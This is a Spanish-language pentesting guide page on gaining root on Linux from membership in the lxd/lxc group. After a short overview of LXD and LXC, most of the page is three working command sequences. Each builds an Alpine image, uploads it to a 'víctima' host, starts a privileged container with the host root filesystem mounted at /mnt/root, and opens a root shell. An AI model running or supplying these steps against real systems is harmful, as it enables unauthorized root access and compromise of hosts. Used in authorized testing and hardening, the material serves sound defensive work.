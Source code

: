 ```yaml
---
description: Si perteneces a estos grupos puedes convertirte en root
---
```


# LXD/LXC GROUP

## INFORMACIÓN GENERAL

LXD, forma abreviada de Linux Container Daemon, es una herramienta de gestión de los **contenedores del sistema operativo Linux**.

LXD es una **tecnología hermana de LXC**, forma abreviada de Linux Containers. [LXC](https://www.ionos.es/digitalguide/servidores/know-how/que-es-lxc/) es una [tecnología de virtualización](https://www.ionos.es/digitalguide/servidores/know-how/docker-tools-el-ecosistema-docker-de-cerca/) a nivel de sistema operativo basada en contenedores. LXC combina espacios de nombres aislados y los “cgroups” del kernel de Linux para crear entornos aislados para ejecutar código. Históricamente, LXC también fue el origen de la popular tecnología de virtualización [Docker](https://www.ionos.es/digitalguide/servidores/know-how/docker-tools-el-ecosistema-docker-de-cerca/).

Uno de los objetivos básicos que había detrás el desarrollo de LXD era hacer la gestión de contenedores LXC lo más cómoda posible, como es habitual en el caso de las [máquinas virtuales](https://www.ionos.es/digitalguide/servidores/know-how/maquina-virtual/). Sin embargo, el enfoque basado en contenedores ofrece un rendimiento superior al de las máquinas virtuales.

Utilizando LXD, **los contenedores del sistema operativo Linux pueden ser configurados y controlados con un conjunto de comandos predefinidos**. Por lo tanto, es muy adecuado para automatizar la gestión de contenedores y, a menudo, es utilizado para soluciones cloud y data centers.

## VULNERABILIDADES

{% embed url="https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation" %}
Fuente
{% endembed %}

### Método 1

Puedes instalar en tu máquina atacante la aplicación distrobuilder y seguir las instrucciones de su github:

{% embed url="https://github.com/lxc/distrobuilder" %}
Fuente
{% endembed %}

```
sudo su
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
sudo go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

A continuación se suben a la víctima los archivos **lxd.tar.xz** y **rootfs.squashfs.**

Después añadimos la imagen a lxd:

```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image
```

Creamos un contenedor y añadimos el root path:

```
lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

{% hint style="danger" %}
_**Error: No storage pool found. Please create a new storage pool**_

Ejecute **lxc init** y **repita** el proceso anterior
{% endhint %}

Ejecute el container

```bash
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

### Método 2

Construya una imagen de la distro Alpine e iniciela utilizando la flag `security.privileged=true` forzando al contenedor a interactuar como root con el sistema host.

```
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686

# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Existe una herramienta automatizada para hacer esto:

{% embed url="https://github.com/initstring/lxd_root" %}
Fuente
{% endembed %}

### Con internet

Solo debe seguir estas instrucciones:

```
lxc init ubuntu:16.04 test -c security.privileged=true
lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
lxc start test
lxc exec test bash
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```
